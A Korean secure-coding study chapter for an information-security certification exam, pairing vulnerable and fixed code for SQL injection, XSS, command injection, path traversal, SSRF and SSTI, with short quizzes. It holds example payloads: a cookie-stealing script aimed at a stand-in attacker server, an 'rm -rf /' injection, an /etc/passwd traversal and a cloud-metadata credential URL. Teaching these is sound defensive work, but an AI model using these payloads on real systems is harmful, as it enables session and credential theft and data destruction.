


## 왜 시큐어코딩이 필요한가

16편에서 SQL 인젝션(SQL Injection)·XSS·CSRF 같은 웹 공격의 원리와 페이로드를 다뤘습니다. 실제로 서비스가 뚫리는 지점은 언제나 **개발자가 짠 코드 한 줄**입니다.

이 문제를 코드 작성 단계에서 막자는 접근이 **시큐어코딩**(secure coding)입니다. 정보보안기사 필기에서는 이 가이드의 **7대 유형별 결함**을 코드로 구분하는 문제가 자주 나옵니다.

시큐어코딩이 소프트웨어 개발 생명주기(SDLC, Software Development Life Cycle) 안에서 어디에 위치하는지 보면 이렇습니다.


```mermaid
graph LR
  A[요구사항 분석] --> B[설계]
  B --> C[구현]
  C --> D[테스트]
  D --> E[운영]
  B -.보안 요구사항 정의.-> B
  C -.시큐어코딩 규칙 적용.-> C
  D -.정적분석 SAST 동적분석 DAST.-> D
  E -.취약점 점검 패치.-> E
```

구현 단계에서 시큐어코딩을 적용하고, 테스트 단계에서 정적분석·동적분석으로 놓친 결함을 잡아내는 이중 구조입니다. 어느 한쪽만 하면 안 됩니다. 시큐어코딩만 하면 개발자가 놓친 실수를 못 잡고, 진단 도구만 돌리면 이미 다 짠 코드를 뒤늦게 고쳐야 해서 비용이 커집니다.

## 입력값 검증 — 화이트리스트가 원칙이다

### 왜 검증이 필요한가

웹 애플리케이션은 사용자 입력을 받아 동작합니다. 그런데 사용자가 보내는 값은 그 애플리케이션 입장에서는 **신뢰할 수 없는 데이터**입니다. 로그인 폼의 아이디 칸에 사람 이름 대신 SQL 구문을 넣거나, 게시판 제목 칸에 스크립트 태그를 넣는 식으로 입력값 자체가 공격 도구가 될 수 있습니다.

### 화이트리스트 대 블랙리스트

입력값을 걸러내는 방식은 두 가지입니다.

| 방식 | 정의 | 문제점 |
|------|------|--------|
| 블랙리스트(deny list) | 알려진 위험 패턴(`SELECT`, `<script>` 등)만 차단 | 대소문자 섞기, 인코딩 변형 등 우회가 쉽고 새 패턴을 놓침 |
| 화이트리스트(allow list) | 허용할 형식(숫자만, 영문 4–12자 등)만 통과시키고 나머지는 전부 거부 | 정상 입력의 범위를 정확히 정의해야 하는 설계 부담이 있음 |

시큐어코딩 가이드가 권장하는 원칙은 **화이트리스트**입니다. 블랙리스트는 "이것만 아니면 통과"라서 공격자가 조금만 변형해도 뚫리지만, 화이트리스트는 "이것만 통과"라서 정의되지 않은 입력은 자동으로 걸러집니다.

**예시.** 사용자 아이디 입력을 검증한다고 합시다.

```java
// 블랙리스트 방식 — 취약: 예상 못 한 패턴은 통과됨
if (userId.contains("'") || userId.contains("--")) {
    throw new IllegalArgumentException("허용되지 않는 문자");
}

// 화이트리스트 방식 — 안전: 정의된 형식만 통과
if (!userId.matches("^[a-zA-Z0-9_]{4,20}$")) {
    throw new IllegalArgumentException("아이디는 영문·숫자·밑줄 4~20자만 허용됩니다");
}
```

정규식 `^[a-zA-Z0-9_]{4,20}$`는 처음부터 끝까지 영문 대소문자·숫자·밑줄로만, 길이는 4자에서 20자 사이여야 통과한다는 뜻입니다. 작은따옴표나 하이픈 두 개 같은 SQL 구문 조각은 애초에 이 형식에 들어올 수 없으므로 자동으로 차단됩니다.

## 인젝션 방어 — 매개변수화된 쿼리

### SQL 인젝션: 전/후 비교

16편에서 본 SQL 인젝션은 사용자 입력을 SQL 문자열에 그대로 이어 붙이는 코드에서 발생합니다.

```java
// 취약한 코드 — 문자열 결합
String query = "SELECT * FROM users WHERE id = '" + userId + "' AND pw = '" + password + "'";
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(query);
```

공격자가 아이디 칸에 `' OR '1'='1`을 넣으면 쿼리는 `WHERE id = '' OR '1'='1' AND pw = '...'`가 되어 조건이 항상 참이 되고, 비밀번호 없이 로그인이 뚫립니다.

```java
// 안전한 코드 — 매개변수화된 쿼리(Prepared Statement)
String query = "SELECT * FROM users WHERE id = ? AND pw = ?";
PreparedStatement pstmt = conn.prepareStatement(query);
pstmt.setString(1, userId);
pstmt.setString(2, password);
ResultSet rs = pstmt.executeQuery();
```

**핵심 원리:** `?`는 값이 들어갈 자리를 미리 예약해 두는 자리표시자(placeholder)입니다. 쿼리 구조(SQL 문법)가 먼저 데이터베이스에 전달되어 **컴파일**된 뒤에, `setString`으로 넣은 값은 순수한 데이터로만 취급됩니다.

같은 원리가 언어마다 다른 이름으로 제공됩니다.

| 언어·프레임워크 | 매개변수화된 쿼리 방식 |
|------------------|------------------------|
| 자바(JDBC) | `PreparedStatement` |
| PHP(PDO) | `PDO::prepare()` + 바인드 파라미터 |
| Python | `cursor.execute("... WHERE id=%s", (user_id,))` |
| Node.js(mysql2) | `connection.execute("... WHERE id=?", [userId])` |

**자주 틀리는 점:** ORM(Object-Relational Mapping, 객체-관계 매핑)을 쓰면 무조건 안전하다고 착각하는 경우가 많습니다. ORM도 내부적으로 문자열을 그대로 결합하는 원시 쿼리 기능(raw query)을 제공하는데, 이 기능을 쓰면서 사용자 입력을 직접 넣으면 똑같이 SQL 인젝션에 노출됩니다.

### XSS: 전/후 비교

크로스사이트 스크립팅(XSS)은 사용자가 입력한 값을 그대로 화면에 출력할 때 발생합니다.

```javascript
// 취약한 코드 — 사용자 입력을 그대로 DOM에 삽입
const comment = getUserInput();
document.getElementById('commentBox').innerHTML = comment;
```

댓글 칸에 `<script>document.location='https://공격자서버/steal?c='+document.cookie</script>`를 넣으면 그 스크립트가 다른 사용자의 브라우저에서 그대로 실행되어 로그인 쿠키(세션 정보)가 공격자 서버로 빠져나갑니다.

```javascript
// 안전한 코드 1 — textContent는 문자열을 태그로 해석하지 않음
document.getElementById('commentBox').textContent = comment;

// 안전한 코드 2 — 서버 측 출력 이스케이프(자바 예시, OWASP Java Encoder)
String safeComment = Encode.forHtml(comment);
```

**핵심 원리:** `innerHTML`은 넘겨받은 문자열을 HTML로 해석해서 태그를 실제 DOM 요소로 만듭니다. `textContent`는 문자열을 순수한 텍스트로만 취급해서 `<script>`라는 글자 그대로를 화면에 보여줄 뿐 실행하지 않습니다.

**콘텐츠 보안 정책**(CSP, Content Security Policy)도 함께 배치하는 이중 방어입니다. 응답 헤더에 `Content-Security-Policy: script-src 'self'`를 설정하면, 설령 이스케이프를 하나 놓쳐 스크립트가 페이지에 끼어들어도 브라우저가 "허용된 출처가 아닌 스크립트"라고 판단해 실행 자체를 차단합니다.

### 명령어 인젝션과 경로 조작

같은 원리가 운영체제 명령어와 파일 경로에도 적용됩니다.

```python
# 취약한 코드 — 사용자 입력을 셸 명령어에 결합
import os
filename = request.args.get('file')
os.system(f"cat /var/log/app/{filename}")
```

`filename`에 `access.log; rm -rf /`를 넣으면 세미콜론 뒤의 명령까지 그대로 실행됩니다. `filename`에 `../../etc/passwd`를 넣으면 로그 폴더를 벗어나 시스템 파일을 읽는 **경로 조작**(path traversal) 공격이 됩니다.

```python
# 안전한 코드 — 화이트리스트 검증 + 안전한 API 사용
import os, re
filename = request.args.get('file')
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.log', filename):
    raise ValueError('허용되지 않는 파일명입니다')
safe_path = os.path.join('/var/log/app', filename)
with open(safe_path) as f:
    content = f.read()
```

셸을 거치는 `os.system` 대신 파일을 직접 여는 안전한 API를 쓰고, 파일명은 확장자까지 포함한 화이트리스트 정규식으로 제한해 상위 폴더로 이동하는 `..` 패턴 자체가 통과하지 못하게 막았습니다.

## KISA 시큐어코딩 7대 결함 유형

「소프트웨어 개발보안 가이드」는 보안 약점을 7개 유형으로 분류합니다. 시험에서는 구체적인 결함 사례를 주고 어느 유형인지 묻는 문제가 나옵니다.

| 유형 | 정의 | 대표 결함 사례 |
|------|------|----------------|
| 입력데이터 검증 및 표현 | 입력값 형식·범위 미검증, 인코딩 불일치 | SQL 인젝션, XSS, 경로 조작, 명령어 인젝션 |
| 보안기능 | 인증·접근통제·암호화 등 보안 기능 자체의 잘못된 구현 | 하드코딩된 비밀번호, 취약한 암호 알고리즘 사용, 부적절한 권한 검사 |
| 시간 및 상태 | 여러 요청·스레드가 동시에 자원에 접근할 때의 결함 | 경쟁조건(race condition), 검사시점-사용시점(TOCTOU) 취약점 |
| 에러처리 | 예외·오류 처리 미흡으로 인한 정보 노출 또는 서비스 중단 | 상세 오류 메시지에 스택 트레이스·쿼리문 노출 |
| 코드오류 | 프로그래밍 언어 문법·자원 관리 실수 | 널 포인터 역참조, 자원 반환 누락(메모리 누수) |
| 캡슐화 | 내부 구현·중요 정보를 외부에 불필요하게 노출 | 디버그 코드 잔존, 중요정보 평문 저장, 접근제어 없는 내부 API |
| API 오용 | 보안에 취약하다고 알려진 API를 잘못 사용 | 검증되지 않은 역직렬화, 취약한 난수 생성 함수 사용 |

**함정 문제 예시:** "로그인 실패 시 `Invalid username`과 `Invalid password`를 구분해서 보여준다"는 결함은 어느 유형일까요. 답은 **에러처리**입니다.

## 취약점 진단 절차 — 정적분석과 동적분석

시큐어코딩을 아무리 잘 지켜도 사람이 실수를 완전히 피할 수는 없습니다. 그래서 코드를 다 쓴 뒤에도 자동화 도구로 다시 검증합니다.


```mermaid
graph TD
  A[소스코드] --> B[정적분석 SAST]
  A --> C[개발 완료 후 배포]
  C --> D[동적분석 DAST]
  B --> E[결함 리포트: 코드 위치까지 특정]
  D --> F[결함 리포트: 실제 응답으로 확인]
  E --> G[수정 및 재검증]
  F --> G
```

| 구분 | 정적분석(SAST, Static Application Security Testing) | 동적분석(DAST, Dynamic Application Security Testing) |
|------|--------------------------------------------------------|----------------------------------------------------------|
| 대상 | 소스코드 또는 바이너리 (실행하지 않음) | 실행 중인 애플리케이션 (블랙박스로 요청을 보내 응답을 관찰) |
| 시점 | 개발·빌드 단계 | 테스트·운영 단계 |
| 장점 | 결함이 있는 코드 줄까지 정확히 특정, 초기에 저비용 수정 | 실제 런타임 환경의 결함(설정 오류 포함)을 발견, 언어에 독립적 |
| 단점 | 오탐(false positive)이 많고 설정·배포 환경 결함은 못 봄 | 코드 위치를 알 수 없고, 테스트 범위 밖의 코드는 놓침 |
| 대표 도구 | SonarQube, Checkmarx, Fortify | OWASP ZAP, Burp Suite, Nikto |

두 방식을 결합한 것이 **대화형 분석**(IAST, Interactive Application Security Testing)입니다. 애플리케이션 내부에 에이전트를 심어 두고 실제로 동작시키면서 코드 흐름과 데이터 흐름을 동시에 추적해, SAST의 정밀한 코드 위치 정보와 DAST의 실제 동작 검증을 함께 얻습니다.

**자주 틀리는 점:** SAST가 "실행하며 검사"하고 DAST가 "코드를 읽어서 검사"한다고 반대로 외우는 경우가 많습니다. **S**는 Static(정적, 코드 자체), **D**는 Dynamic(동적, 실행 중 동작)이라는 철자 그대로 기억하면 헷갈리지 않습니다.

## 최신 웹 공격 동향 — SSRF와 서버사이드 템플릿 인젝션

### SSRF (서버 측 요청 위조)

**서버 측 요청 위조**(SSRF, Server-Side Request Forgery)는 공격자가 서버를 속여 **서버 자신이** 공격자가 지정한 주소로 요청을 보내게 만드는 공격입니다.

이미지 URL을 입력받아 서버가 대신 다운로드해서 썸네일을 만들어 주는 기능이 대표적인 취약 지점입니다.

```python
# 취약한 코드 — URL을 검증 없이 그대로 요청
image_url = request.form['url']
response = requests.get(image_url)
```

공격자가 `image_url`에 `http://169.254.169.254/latest/meta-data/iam/security-credentials/`(클라우드 인스턴스의 메타데이터 서버 주소)를 넣으면, 서버가 대신 그 주소로 요청을 보내 클라우드 접근 키 같은 내부 정보를 응답으로 받아 오고, 이를 공격자에게 그대로 돌려주면 자격 증명이 유출됩니다. 내부 관리자 페이지나 방화벽 뒤에 숨겨진 서비스에 접근하는 데도 같은 방식이 쓰입니다.

**대응:** 허용된 외부 도메인만 화이트리스트로 관리하고, 내부 사설 IP 대역(`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, 클라우드 메타데이터 주소)으로 향하는 요청은 애플리케이션 단에서 차단합니다.

### 서버사이드 템플릿 인젝션 (SSTI)

**서버사이드 템플릿 인젝션**(SSTI, Server-Side Template Injection)은 사용자 입력이 템플릿 엔진의 문법으로 해석되어, 서버에서 임의 코드가 실행되는 공격입니다. 웹 애플리케이션이 화면을 그릴 때 흔히 Jinja2(파이썬)나 프리마커(자바) 같은 템플릿 엔진을 씁니다.

```python
# 취약한 코드 — 사용자 입력을 템플릿 문자열로 직접 렌더링
from flask import render_template_string
name = request.args.get('name')
return render_template_string(f"안녕하세요, {name}님")
```

`name`에 `{{7*7}}`을 넣으면 응답에 숫자 49가 나타납니다. 사용자 입력이 단순 문자열이 아니라 **템플릿 문법으로 해석**되었다는 뜻입니다.

```python
# 안전한 코드 — 사용자 입력은 데이터로만, 템플릿 구조와 분리
from flask import render_template
name = request.args.get('name')
return render_template('greeting.html', name=name)
```

`render_template`은 미리 정의된 템플릿 파일(`greeting.html`)의 `{{ name }}` 자리에 값만 채워 넣을 뿐, 사용자 입력 자체를 템플릿 문법으로 다시 해석하지 않습니다. **입력값이 코드나 쿼리, 템플릿 같은 실행 가능한 구조 안에 섞여 들어가면 반드시 인젝션 계열 취약점이 생긴다**는 것이 이 편 전체를 관통하는 원칙입니다.

## 핵심 정리

- 시큐어코딩은 KISA 「소프트웨어 개발보안 가이드」에 따라 공공 정보시스템 구축 시 의무 적용되며, 정적분석·동적분석과 함께 이중으로 결함을 잡는다.
- 입력값 검증은 허용 목록을 정의하는 **화이트리스트**가 원칙이며, 알려진 위험만 막는 블랙리스트는 우회에 취약하다.
- SQL 인젝션은 매개변수화된 쿼리(자바의 `PreparedStatement` 등)로, XSS는 출력값 이스케이프와 콘텐츠 보안 정책(CSP)으로, 명령어 인젝션·경로 조작은 화이트리스트 검증과 안전한 API 사용으로 막는다.
- KISA 결함 7대 유형(입력데이터 검증 및 표현, 보안기능, 시간 및 상태, 에러처리, 코드오류, 캡슐화, API 오용) 중 어디에 속하는지 사례로 구분할 수 있어야 한다.
- 정적분석(SAST)은 코드 자체를 실행 없이 검사해 결함 위치를 특정하고, 동적분석(DAST)은 실행 중인 애플리케이션에 요청을 보내 응답으로 결함을 찾는다. 둘을 합친 것이 IAST다.
- SSRF는 서버가 대신 공격자가 지정한 주소로 요청하게 만드는 공격이고, SSTI는 사용자 입력이 템플릿 문법으로 해석되어 서버 코드 실행까지 이어지는 공격이다. 둘 다 "입력값과 실행 구조의 분리 실패"라는 공통 원인을 가진다.

## 마무리 복습

<Quiz
  questionNumber={1}
  question={"입력값 검증에서 화이트리스트 방식이 블랙리스트 방식보다 안전한 이유로 가장 적절한 것은?"}
  options={["처리 속도가 항상 더 빠르기 때문이다","알려진 위험 패턴을 더 많이 등록할 수 있기 때문이다","정의된 허용 형식 외에는 자동으로 차단되어 새로운 우회 패턴에도 대응되기 때문이다","블랙리스트는 정규식을 사용할 수 없기 때문이다"]}
  correctAnswer={3}
  explanation={"화이트리스트는 허용할 형식만 정의하고 나머지는 전부 거부하므로, 공격자가 새로운 변형 패턴을 만들어도 정의된 형식에 없으면 자동으로 차단된다. 블랙리스트는 알려진 패턴만 막기 때문에 조금만 변형해도 우회당하기 쉽다."}
/>

<Quiz
  questionNumber={2}
  question={"다음 자바 코드에서 안전한 쿼리 실행 방식으로 바꾸었을 때 SQL 인젝션이 방지되는 핵심 원리는 무엇인가?"}
  options={["쿼리 문자열의 길이를 제한하기 때문이다","쿼리 구조가 먼저 컴파일되고 이후 값은 순수 데이터로만 취급되기 때문이다","데이터베이스 서버의 방화벽이 자동으로 동작하기 때문이다","자바 언어가 문자열 결합 자체를 금지하기 때문이다"]}
  correctAnswer={2}
  explanation={"PreparedStatement는 자리표시자로 쿼리 구조를 먼저 데이터베이스에 전달해 컴파일시키고, 이후 setString 등으로 넣는 값은 쿼리 문법을 바꿀 수 없는 순수 데이터로만 처리된다. 이 구조적 분리가 SQL 인젝션을 원천 차단한다."}
/>

<Quiz
  questionNumber={3}
  question={"XSS 방어를 위해 innerHTML 대신 textContent를 사용하는 이유로 가장 적절한 것은?"}
  options={["textContent가 처리 속도가 더 빠르기 때문이다","textContent는 문자열을 HTML 태그로 해석하지 않고 순수 텍스트로만 표시하기 때문이다","innerHTML은 모든 브라우저에서 지원되지 않기 때문이다","textContent를 쓰면 서버 측 이스케이프가 필요 없기 때문이다"]}
  correctAnswer={2}
  explanation={"innerHTML은 전달된 문자열을 HTML로 해석해 스크립트 태그를 실제로 실행 가능한 요소로 만들지만, textContent는 문자열을 태그로 해석하지 않고 글자 그대로 표시하므로 스크립트 실행 자체가 불가능해진다."}
/>

## 참고 자료

- [OWASP - OWASP Top 10:2021](https://owasp.org/Top10/en/)
- [itwiki - 정보보안기사 필기 출제기준](https://itwiki.kr/w/정보보안기사_필기_출제기준)
- [공공데이터포털 - 한국방송통신전파진흥원_국가기술자격검정 정보보안 종목 출제기준](https://www.data.go.kr/data/15140079/fileData.do)
